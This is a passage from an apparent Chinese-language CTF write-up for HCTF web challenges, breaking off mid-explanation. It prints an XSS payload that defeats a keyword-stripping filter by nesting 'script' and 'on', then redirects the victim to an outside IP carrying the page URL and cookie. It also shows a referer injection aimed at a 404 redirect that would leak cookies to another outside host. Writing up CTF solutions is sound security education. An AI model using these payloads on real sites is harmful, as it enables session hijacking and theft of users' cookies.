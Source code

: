 然后，提交的message为：

><scriscriptpt>window.locatioonn.href="http://59.110.54.124:8080/index.php?a="+document.URL+"|"+document.cookie</scscriptript>

需要注意的地方是，这里script和on会被replace成空字串，用’scriscriptpt‘和’oon'这样的字符串就可以绕过。最后可以获得返回的url和cookie。使用该cookie访问该url即可获得最终的flag。因为xss bot 好像关掉了，flag也没记下来，就这样子把：

 ![3](jpg\3.jpg)

最终flag：

	hctf{我忘了记下来了XD}
###**WEB-8**

secret area

这题我个人感觉我的方法是可以的，而且我用自己账号测试的时候是成功的，但是貌似xss bot给每个人分配的时间有限，最后试了很多次，还是没能get到flag。

首先我们可以看到header中带的CSP策略：

>Content-Security-Policy: default-src 'self'; script-src http://sguestbook.hctf.io/static/ 'sha256-n+kMAVS5Xj7r/dvV9ZxAbEX6uEmK+uen+HZXbLhVsVA=' 'sha256-2zDCsAh4JN1o1lpARla6ieQ5KBrjrGpn0OAjeJ1V9kg=' 'sha256-SQQX1KpZM+ueZs+PyglurgqnV7jC8sJkUMsG9KkaFwQ=' 'sha256-JXk13NkH4FW9/ArNuoVR9yRcBH7qGllqf1g5RnJKUVg=' 'sha256-NL8WDWAX7GSifPUosXlt/TUI6H8JU0JlK7ACpDzRVUc=' 'sha256-CCZL85Vslsr/bWQYD45FX+dc7bTfBxfNmJtlmZYFxH4=' 'sha256-2Y8kG4IxBmLRnD13Ne2JV/V106nMhUqzbbVcOdxUH8I=' 'sha256-euY7jS9jMj42KXiApLBMYPZwZ6o97F7vcN8HjBFLOTQ=' 'sha256-V6Bq3u346wy1l0rOIp59A6RSX5gmAiSK40bp5JNrbnw='; font-src http://sguestbook.hctf.io/static/ fonts.gstatic.com; style-src 'self' 'unsafe-inline'; img-src 'self'

可以看到script-src基本上完全被禁了，然后看到有上传头像的地方，估计正规做法是需要利用头像上传的。这里介绍我的做法。

把页面都翻了一遍，发现404页面处有一个有意思的跳转：

><script>
>function redirect(){ 
>window.location.href='/index.php'
>}
>window.onload = function(){
>setTimeout(redirect, 3000)
>}
></script>

他的跳转地址是通过referer来生成的，如果我们构造这样的referer：

>http://163.44.155.179/index2.php/'+document.cookie+document.URL;//

就能使得最终404页面的代码变成这样：
